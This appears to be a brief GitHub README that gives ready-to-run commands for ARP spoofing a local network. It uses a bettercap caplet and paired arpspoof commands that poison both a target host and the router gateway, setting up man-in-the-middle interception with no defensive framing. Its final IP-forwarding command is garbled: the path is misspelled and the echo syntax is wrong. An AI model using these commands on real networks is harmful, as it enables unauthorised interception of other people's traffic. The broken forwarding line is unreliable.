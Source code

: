 # spoofing-tip-s-and-command
# ARP Spoof using Bettercap
to run the spoof.cap file you need to add only target ip 
then run this command 
# bettercap -iface eth0 -caplet spoof.cap


# arp spoofing
# arpspoof -i eth0 -t target-ip  router-gateway-ip
# arpspoof -i eth0 -t router-gateway-ip  target-ip

in case internet is not working use this command

# echo 1>/proc/sys/net/ipv4/ip-forword
